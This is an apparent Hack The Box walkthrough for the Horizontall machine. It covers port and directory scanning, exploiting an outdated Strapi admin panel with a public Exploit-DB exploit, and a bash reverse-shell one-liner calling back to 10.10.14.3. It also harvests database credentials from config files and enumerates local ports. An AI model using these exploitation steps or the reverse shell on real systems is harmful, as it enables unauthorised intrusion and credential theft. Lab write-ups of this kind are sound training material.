


[Horizontall](https://app.hackthebox.com/machines/Horizontall)

First, nmap scan top ports:
`nmap -sV -sC --top-ports 1000 -o nmap-top-ports $MACHINE`
Then, scan all ports in bg.

SSH and HTTP open.

Add `horizontall.htb` to `/etc/hosts`

`gobuster dir` scan yields no useful results.

However, by digging through the source, we can find a link to `js/app.c68eb462.js`.
There we can find a subdomain, `http://api-prod.horizontall.htb/reviews`

It can also be found using `gobuster vhost` scan.

`gobuster dir` there yields some results:
```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60] 
/reviews              (Status: 200) [Size: 507]
/.                    (Status: 200) [Size: 413]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60] 
/Reviews              (Status: 200) [Size: 507]
```

On the `admin` page, we can find that `Strapi` framework is used,
as well as those suspicious comments:




In the second file, we find that `strapi` version is `3.0.0-beta.17.4`. It can also be
checked in `/admin/init`.

On Google we can find [this exploit](https://www.exploit-db.com/exploits/50239) and the
code to use it. If we just run it it turns out it works, and sets for us new credentials:
`admin@horizontall.htb` with password `SuperStrongPassword1`

It also creates a terminal for us with enabled RCE. We can use this to gain reverse shell:
`bash -c 'bash -i >& /dev/tcp/10.10.14.3/4242 0>&1'`

We are user `strapi`, but we can get user flag from user `developer`.

Now we'd like to somehow become `developer`.

We can `grep` for `password` in `/opt/strapi/myapi/config` and get credentials `developer:#J!:F9Zt2u` in `./environments/development/database.json`.
Unfortunately, they don't seem to work for SSH/logging in as this user.

We can, however, login to local `mysql` server: `mysql -u developer -h 127.0.0.1 -p`

There doesn't seem to be anything interesting though.

We can check open ports using `netstat -tulpn`. Other than the `mySQL,http, ssh` ports, there are 2 other interesting ports:
```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1829/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
